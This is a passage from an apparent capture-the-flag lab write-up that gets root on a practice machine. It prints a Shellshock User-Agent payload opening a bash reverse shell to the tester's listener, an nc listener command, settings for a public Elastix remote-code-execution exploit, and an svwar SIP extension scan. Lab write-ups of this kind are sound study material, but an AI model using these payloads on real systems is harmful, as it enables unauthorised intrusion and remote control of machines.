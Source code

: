get shell.

```bash
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.15/443 0>&1

nc -nvlp 443
```

![image-20220927234636946](./images/image-20220927234636946.png)

got root.



# Path 3-Eslatix RCE 18650

exploit,Cve-2012-4869,  https://www.exploit-db.com/exploits/18650

Default value of exploit in the exploit is 1000, which is wrong.

change the exploit and run, but failed.

```bash
import ssl
rhost="10.129.1.226"
lhost="10.10.14.15"
lport=443
extension="1000"
```

![image-20220927235650352](./images/image-20220927235650352.png)

extension enum.

```bash
svwar -m INVITE -e100-999 10.129.1.226
```
